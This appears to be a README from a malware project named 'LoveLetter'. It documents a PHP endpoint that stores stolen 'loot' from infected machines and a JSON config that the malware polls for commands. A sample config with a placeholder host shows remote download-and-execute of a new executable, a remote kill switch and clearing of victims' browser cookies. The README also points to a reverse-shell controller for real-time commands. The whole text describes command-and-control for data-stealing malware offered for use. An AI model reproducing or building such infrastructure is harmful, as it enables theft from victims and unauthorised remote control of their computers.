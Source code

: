 ## [TellMe.php](TellMe.php)
The PHP file that handles and stores loot from the letter and stores them nicely structured on the server.

<br/>
<div>
  <img width="100" align="right" src="https://i.ibb.co/FxZQgkC/2.gif" alt="LoveLetter"/>
  <br>
  <h1>⚙️ Configuration</h1>
  <p>Update.json is being fetched by the client to check for any server commands. You can update it to your liking.</p>
</div>

This config only gets initialized everytime the letter is run, for controlling on runtime, please see [the Controller]("../Controller/")
## Sample 
```json
{
  "updateVersion": 0,
  "letterVersion": 0.1,
  "downloadLink": "http://0.0.0.0/new_tll_update.exe",
  "killSelf": false,
  "clearCookies": false,
}
```

## To be written...
> - Update Version ```updateVersion```

The version of the Update.json, always increment this whenever you updated the file, else the letter wont bother to load the json if the value is the same as the last.

> - Letter Version ```letterVersion```

The current latest version of the letter, increment this if you want the letter to download and execute ```downloadLink```.

> - Download Link ```downloadLink```

Direct download link to the newest executable.

> - Kill Self ```killSelf```

Put this to true whenever you want to remotely switch of all letters.

> - Clear Cookies ```clearCookies```

If true, it will clear all cookies and cache of ~~supported~~ popular browsers.


<br/>
<br/>

### For real-time commands you may use the [**Reverse Shell**](../Controller).